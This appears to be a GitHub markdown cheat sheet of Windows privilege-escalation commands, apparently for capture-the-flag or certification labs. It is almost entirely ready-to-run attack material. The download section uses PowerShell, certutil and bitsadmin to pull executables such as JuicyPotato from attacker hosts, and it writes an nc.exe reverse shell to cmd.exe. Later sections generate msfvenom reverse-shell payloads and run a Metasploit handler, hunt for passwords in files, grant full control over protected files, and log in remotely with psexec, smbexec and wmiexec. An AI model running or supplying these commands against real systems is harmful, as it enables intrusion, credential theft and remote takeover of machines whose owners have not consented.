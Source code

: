 # Downloading Files
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.41:8000/JuicyPotato.exe','C:/Users/kohsuke/Desktop/JuicyPotato.exe')"

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c '(Invoke-RestMethod -Uri "http://10.10.14.3:8000/JuicyPotato.exe" -Method Get -OutFile "jp.exe")'

powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.14:7898/file.exe' -OutFile 'file.exe'"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $stream = [System.IO.StreamReader]::new($url); $content = $stream.ReadToEnd(); Set-Content -Path 'file.exe' -Value $content -Encoding Byte"

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $request = [System.Net.HttpWebRequest]::Create($url); $response = $request.GetResponse(); $stream = $response.GetResponseStream(); $output = [System.IO.File]::Create('file.exe'); $stream.CopyTo($output); $output.Close(); $response.Close()"

certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe

bitsadmin /transfer myDownload /priority normal http://10.10.14.3:8000/JuicyPotato.exe jp.exe

nc

curl

wget

scp

echo c:\Users\kohsuke\Desktop\nc.exe 10.10.14.41 4455 -e cmd.exe > reverse.bat
```

# Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

```
# Manual Windows Reverse Shell
```
python3 -m http.server

#to get reverse shell from your kali
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 

cd C:\Windows\Temp
certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

#32bit ? 64bit ? 68bit ?
wmic os get osarchitecture

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"

dir /r aka ls -la
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# Read Permissions
```
#possible if user is also admin
icacls C:\Users\Administrator\Desktop\root.txt /grant username:F

icacls C:\Windows\System32\net.exe /grant username:username:F

"F" for Full control, "M" for Modify, "R" for Read, "W" for Write, "X" for Execute

```
# Finding exe files
```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
```

# Login methods
```
 psexec.py administrator:'password'@MACHINE_IP
 
 smbexec.py administrator:'password'@MACHINE_IP
 
 wmiexec.py administrator:'password'@MACHINE_IP
```

# References

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/SecWiki/windows-kernel-exploits

